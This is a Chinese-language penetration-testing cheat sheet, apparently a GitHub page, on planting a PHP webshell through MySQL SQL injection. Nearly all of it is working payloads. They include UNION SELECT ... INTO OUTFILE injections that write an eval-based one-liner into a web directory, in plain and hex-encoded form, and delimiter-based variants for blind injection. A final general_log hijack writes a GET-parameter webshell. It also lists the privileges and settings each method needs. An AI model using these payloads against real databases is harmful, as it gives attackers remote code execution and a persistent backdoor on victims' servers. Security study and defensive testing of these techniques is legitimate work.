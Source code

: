 ```mysql
A、MySQL用secure_file_priv这个配置项来完成对数据导入导出的限制。如果secure_file_priv=NULL，MySQL服务会禁止导入和导出操作。通过命令查看secure-file-priv`的当前值，确认是否允许导入导出以及到处文件路径。
show variables like ‘%secure_file_priv%’;

B、MySQL中root 用户拥有所有权限，但写入Webshell并不需要一定是root用户权限，比如数据库用户只要拥有FILE权限就可以执行 select into outfile操作。

C、当secure_file_priv文件导出路径与web目录路径重叠，写入Webshell才可以被访问到。
```

###### Union select 写入

into outfile / into dumpfile写文件

具体权限要求：secure_file_priv支持web目录文件导出、数据库用户File权限、获取物理路径。

```sql
?id=1 union select 1,"<?php @eval($_POST['g']);?>",3 into outfile 'E:/study/WWW/evil.php'

?id=1 union select 1,0x223c3f70687020406576616c28245f504f53545b2767275d293b3f3e22,3 into outfile "E:/study/WWW/evil.php"
```

###### 利用分隔符写入

注入点为盲注或报错,可以通过分隔符写入

具体权限要求：secure_file_priv支持web目录文件导出、数据库用户File权限、获取物理路径。

```sql
?id=1 LIMIT 0,1 INTO OUTFILE 'E:/study/WWW/evil.php' lines terminated by 0x20273c3f70687020406576616c28245f504f53545b2767275d293b3f3e27 --
?id=1 INTO OUTFILE '物理路径' lines terminated by  （一句话hex编码）#

?id=1 INTO OUTFILE '物理路径' fields terminated by （一句话hex编码）#

?id=1 INTO OUTFILE '物理路径' columns terminated by （一句话hex编码）#

?id=1 INTO OUTFILE '物理路径' lines starting by    （一句话hex编码）#
```

###### 利用log写入

新版本的`MySQL`设置了导出文件的路径，很难在获取`Webshell`过程中去修改配置文件，无法通过使用select into outfile来写入一句话。这时，我们可以通过修改`MySQL`的`log`文件来获取`Webshell`。

具体权限要求：数据库用户需具备`Super`和`File`服务器权限、获取物理路径。

```sql
show variables like '%general%';                        #查看配置
set global general_log = on;                            #开启general log模式
set global general_log_file = 'E:/study/WWW/evil.php';    #设置日志目录为shell地址
select '<?php eval($_GET[g]);?>'                     #写入shell
set global general_log=off;                             #关闭general log模式
```

###### 其他：load_file读文件
